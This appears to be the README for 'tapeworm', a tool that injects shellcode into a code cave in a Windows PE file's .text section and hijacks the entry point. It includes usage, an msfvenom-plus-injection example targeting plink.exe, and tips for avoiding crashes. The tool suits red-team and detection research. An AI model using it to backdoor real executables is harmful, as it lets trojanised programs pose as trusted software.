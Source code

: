 # tapeworm - shellcode injector

Tapeworm injects your shellcode into the code cave at the end of the `.text` section of your PE file.

## Installation

Just install the dependencies:

```bash
pip install -r requirements.txt
```

## Usage

```
usage: ./tapeworm.py [-h] -p PAYLOAD -i INPUT -o OUTPUT [options...]

options:
  -h, --help            show this help message and exit
  -t, --use-create-thread
                        Run the shellcode in a new thread. Tapeworm will inject an
                        additional shellcode that will run CreateThread. The created
                        thread will run your shellcode immediately
  -a INJECTION_ADDRESS, --injection-address INJECTION_ADDRESS
                        RVA where the jump to the shellcode should be injected. 
                        If not specified the entry point of the PE will be used.
  -e EXTEND_CAVE, --extend-cave EXTEND_CAVE
                        Move the code cave start address EXTEND_CAVE bytes back.
                        This will result in EXTEND_CAVE last bytes of instructions in .text to be overwritten!
                        You may want to try this if the code cave is too small for your shellcode,
                        but it will make the main program break at some unexpected point.

required named arguments:
  -p PAYLOAD, --payload PAYLOAD
                        shellcode file
  -i INPUT, --input INPUT
                        input PE path
  -o OUTPUT, --output OUTPUT
                        output PE path
```

Example:

```bash
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -o payload.bin
python tapeworm.py \
  -p payload.bin \
  -i plink.exe \
  -o injected_plink.exe \
  --use-create-thread
```

Sometimes injecting the `jmp <your-shellcode>` instruction at PE's entry point will crash the app if, for example, one of the replaced instructions contains a relocation (tapeworm won't edit them). In that case, run your favorite debugger, find some safe address to inject `jmp` to and pass it via `--injection-address`:

```bash
python tapeworm.py \
  -p payload.bin \
  -i plink.exe \
  -o injected_plink.exe \
  --injection-address 4d00
```

## What does it do?

It tries to inject your shellcode into the code cave at the end of the `.text` section.

Then it alters a few first instructions of your PE's entry point (or the instructions at the address passed via the `--injection-address` switch) to jump to the shellcode.

After the shellcode is executed registers and flags are restored, altered instructions are executed and then it jumps back to right after the entry point to continue program execution.

If you pass `--use-create-thread`, your shellcode will be ran in a new thread. Tapeworm will inject additional shellcode that runs `CreateThread`.

**NOTE**: The 32-bit asm code that calls `CreateThread` is based on the code from [this blog post by Ilia Dafchev](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html). The 64-bit version is based on the code [this blog post by Nytro Security](https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/).